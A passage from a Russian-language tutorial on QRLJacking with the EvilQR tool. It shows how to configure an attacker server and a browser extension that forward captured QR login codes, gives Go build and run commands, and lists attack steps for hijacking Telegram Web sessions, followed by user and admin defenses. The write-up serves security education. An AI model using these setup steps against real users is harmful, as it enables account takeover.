4. Выбрать папку **extension/**.

После установки расширение автоматически перехватывает отображаемый QR‑код и отправляет его на сервер атакующего.

---

## ⚙️ Настройка конфигурации EvilQR





Перед сборкой необходимо настроить параметры соединения в нескольких файлах.

### 1. Конфигурация серверной части — `server/core/config.go`

Указывается токен, порт и URL сервера, который будет принимать QR‑код.

### 2. Настройка HTML-шаблона — `server/templates/index.html`

Файл определяет:

* адрес сервера злоумышленника,
* идентификатор QR‑кода, который будет отображён жертве.

### 3. Настройка расширения — `extension/background.js`

Дублируются параметры:

* адрес сервера,
* токен,
* endpoint для передачи QR‑кода.

---

## 🔧 Установка Go и сборка EvilQR





EvilQR написан на языке Go, поэтому необходимо установить компилятор:

```
wget https://go.dev/dl/go1.24.3.linux-amd64.tar.gz
sudo tar -C /usr/local -xzf go1.24.3.linux-amd64.tar.gz
```

Добавить Go в PATH:

```
export PATH=$PATH:/usr/local/go/bin
source /etc/profile
```

### Сборка серверной части

```
cd server
chmod 700 build.sh
./build.sh
```
> * Скомпилированный бинарный файл


Готовый бинарный файл появляется в каталоге:

```
server/build/evilqr-server
```

Запуск сервера:

```
./server/build/evilqr-server -d ./server/templates/
```
> * Интерфейс с QR-кодом


После запуска сервер начинает принимать QR‑коды от расширения и отображать их в веб‑интерфейсе.

---

## 🎯 Ход атаки

1. Жертва открывает Telegram Web или другой сервис авторизации.
2. Расширение злоумышленника перехватывает легитимный QR‑код.
3. Код отправляется на сервер злоумышленника.
4. Злоумышленник формирует поддельную ссылку и отправляет жертве (e-mail, мессенджеры, соцсети).
5. Жертва переходит на страницу злоумышленника и видит QR-код, визуально идентичный оригиналу.
6. После сканирования мобильное приложение жертвы отправляет *сессионный токен* на атакуемый сервис.
7. Злоумышленник получает токен и входит в аккаунт жертвы **без пароля и без уведомления**.

---

## 🛡 Защита от QRLJacking

### **На стороне пользователя:**

* проверять URL страницы перед сканированием QR‑кода;
* избегать QR‑кодов, полученных от неизвестных отправителей;
* использовать встроенные сканеры QR‑кодов в официальных приложениях;
* включить двухфакторную аутентификацию (2FA);
* проверять историю активных сессий и завершать подозрительные;
* выходить из аккаунта после завершения работы;
* включить уведомления о входах с новых устройств.

### **На стороне администратора:**

* привязывать QR‑код к конкретной сессии/IP/User‑Agent;
* ограничивать время жизни QR‑кода (60–90 секунд);
* требовать подтверждение входа на мобильном устройстве;
* фиксировать попытки входа по QR‑коду (IP, fingerprint, геолокация);
* подписывать QR‑код криптографически и проверять подпись на клиенте;
* обеспечивать возможность мгновенного сброса всех сессий;
* проверять хэш изображения QR‑кода на стороне клиента;
* использовать WAF/IDS/IPS для выявления автоматизированных атак.

---

## 📝 Итог

Атака QRLJacking демонстрирует критичность доверия к QR‑кодам без проверки источника. Подмена изображения приводит к прямой компрометации сессионного токена и моментальному захвату учётной записи пользователя.